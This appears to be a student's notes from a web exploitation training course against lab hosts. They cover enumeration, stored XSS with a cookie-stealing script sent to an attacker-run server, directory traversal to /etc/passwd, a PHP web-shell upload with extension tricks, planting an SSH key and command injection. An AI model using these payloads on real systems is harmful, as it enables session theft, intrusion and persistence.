# Day 2 - Web Exploitation 1

[TOC]

## Web Fundamentals

We can enuemrate the HTTP Request/Responses by looking at the Developer Console information. 

### Demo Developer Console

Website utilized:

```bash
http://example.com
```



Press F12 or right click -> Inspect to open the developer console. 



Within the Network tab, we can see the HTTP requests/status codes:



Clicking on a request, we can see additional information. 



Important information here are the Server (Website hosting server), access date, and referer link (Where the page loaded from). 

## Javascript

Javascript is what allows web pages to behave in an interactive fashion

### Demo Javascript

Website utilized:

```bash
10.50.11.248:8080/java/javademo.html
```



Notice when selecting an option, the list changes to Melon per item. This is a function of Javascript, in this client-side request. 



We can take a look at what the javascript is doing by doing a right click -> View page source



We can run functions we find inside of some html through the "Console" option. 


## Website Enumeration

We can try a few commands to enumerate a website further:

```bash
proxychains nmap -Pn -T5 -sT -p 80 --script http-enum.nse <IP>
proxychains nmap -Pn -T5 -sT -p 80 --script http-sql-injection.nse <IP>
proxychains nmap -Pn -T5 -sT -p 80 --script http-robots.txt.nse <IP>
```

### Common directories

We can also take a look at some common directories to further enumerate

```bash
/robots.txt
/scripts
/uploads
```



## Cross-Site Scripting (XSS)

There are two types of Cross-Site Scripting:

1. Reflected XSS

Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a "trusted" server. Reflected XSS is also sometimes referred to as Non-Persistent or Type-II XSS.

2. Stored XSS

Stored attacks are those where the injected script is permanently stored on the target servers, such as in a database, in a message forum, visitor log, comment field, etc. The victim then retrieves the malicious script from the server when it requests the stored information. Stored XSS is also sometimes referred to as Persistent or Type-I XSS.

We don't utilized reflected XSS as much, but rather focus on stored XSS. 

### Demo - Stored XSS

Utilized website:

```
10.50.11.248:8080/cross/
```



In this website, we have a potentially vulnerable php script that allows for XSS:



We can check out the input we provided the webserver by looking in the page source:



To verify if this input is XSS vulnerable we can run this:

```html
<script>alert("hacked")</script>
# Make sure you add something to the message!
```



We can check our input by checking the page source:



Now that we verified the website is vulnerable, we can throw in a malicious script in order to steal a Cookie. In order for this to work, we need to direct the command to connect to a http.server we setup on port 8000.

```bash
python3 -m http.server # On lin-ops

<script>document.location="http://10.50.130.228:8000/Cookie_Stealer1.php?username=" + document.cookie;</script> # In the vuln shell
```









Get Cookie/Session info!

## Directory Traversal

Directory traversal vulnerabilities exist when an attacker is able to read files on a web server that are outside of the intended scope by the developers.

### Demo  - POST (in input)

Website utilized:

```bash
10.50.11.248:8080/path/pathdemo.php
```



Load the demo1 file. Notice how we get the output of the file. It's reading and then displaying file contents!



Now lets try changing it to something malicious. Common directory traversal attempts:

```bash
../../../../../etc/passwd
../../../../../etc/hosts
```



Success!

### Demo - GET (in url)

Website utilized:

```bash
10.50.11.248:8080/path/pathdemo.php?
```



When selecting a file and submitting, we notice our URL changes to include ?myfile=demo1. We can change 'demo1' to potentially use directory traversal to enumerate more information. 



Lets try adding in some common items:

```bash
?myfile=../../../../etc/passwd
?yfile=../../../../etc/hosts
```




## Malicious File Upload

We can upload files maliciously, at times, in order to recieve additional access to a system. 

### Demo - File Upload

Website utilized:

```
10.50.11.248:8080
```

When able, we can upload a malicious php for us to run to get console access to a web server. 

```bash
https://sec-cted-tech-college-cttsb-cctc-sec-12e0e75a1babbeec38083447b9.cybbh.io/04_Web_Exploitaion.html#malicious-file-upload

# Code located here
```



Upload the malicious.php from the code above into the webserver. 



We then have to locate the file. Some common directories to look are:

```bash
/uploads
/robots.txt
/scripts
/java
```





Click your malware to access. 

Upon loading our malicious script we get our input prompt!

```bash
10.50.11.248:8080/uploads/mal.php
```

Now we can use some commands to enumerate



### Upload File Obfuscation

In the case the website does not take our upload, we can obfuscate our file as a different type in order to complete the upload. The website code in this case only reads the file extension at the end of the file name, so we can manipulate that to upload an executable/php file. 

Intead of uploading a .php, try:

```bash
malicious.php.png
```

And then to run, exclude the .png from the url:

```bash
10.10.10.10:8000/malicious.php%00.img
```

## SSH Key Upload

### Demo - SSH Key Upload

First, we need to check if the .ssh directory exsists. 



In this case, the directory does not exsist so we move to create:

```bash
mkdir /var/www/.ssh # Create the directory
ls -la /var/www/ # Verify it was created
```



Now, we need to generate our own RSA key.

```bash
ssh-keygen -t rsa -b 4096
```



View the key and prep it to copy into another file:

```bash
cat /home/student/.ssh/id_rsa.pub
```



Echo the key into the directory you created, into a new file called authorized_keys

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC9C0a80hNfyWfIfXM/2qlQ6O10rYY6kWZT1b2YZX1NLYn0CA5WssSFzjFV+yj90v9qyBInwYaT/YHXSsFIwxRBXg/Gdmd3z7WogrlIRtB5SaHmbsAxn6uBMVKqq0ZPXmQd0NvJRX79s7HBXX3nYBQvB7P7Zqz8M7PLebFUcWaDk/TTcE+aECr3AK5kRNDr17nlF/WPX2NAutoRyz10V69QSiQE9e3hPVHM08tsittZXo4Cc1uFM74q8nflbZTBKUcmv4KGLzhgYoDatcltu/PYdNRw+3T9/lOptcz098+UnEDntT9N1On5tRQZ3gHmnsnkfpIk3SEBJ+bLTxkJsRWmGPL/807bzYL+s4y2BEhKJ5Swfstk9pvbiYh/7zAVlG95RUEAfifVA/8ACTTVmlTe1B1BL6nWSMkURB4T9Pt0ORBoRIy60jjtBIxUFCYVXIxPuMOsgOmhJxCD2qL+Wtfgw9SBo2AReMq8czMsGq0lHRX57NyDkmZJlWqKAm4bt2b/+qDNIIxrliUg/DGrSOO3Fg8oZ8uK2OzkR3Gy0fYF3RfDz1WtySKBeYZ9UH1qkUnttZ89qJ2u4BQA6ASb+mj4QXsMZm9H5gB7a7hmjEZ8OhbaesYEwkQ6dSJJ6opom1+EZW/pSNPddkAEj6AtTSiufhv8AzlwHI36opwK42zeqw== student@lin-ops" > /var/www/.ssh/authorized_keys
```



## Command Injection

Command injection occurs when some input received from a user is used in command execution on the server-side in a way that allows a malicious actor to execute additional arbitrary commands.

### Demo - Command Injection

Website utilized:

```bash
10.50.11.248:8080/cmdinjection/cmdinjectdemo.php
```


Send in a command to verify we can potentially utilize Command Injection:



Now, we try a command with a semi-colon (;). The semi-colon will run an additional command, as this is how a shell interprets the semi-colon. 

```bash
; ls / # Example command to verify vulnerable shell
```



Success!
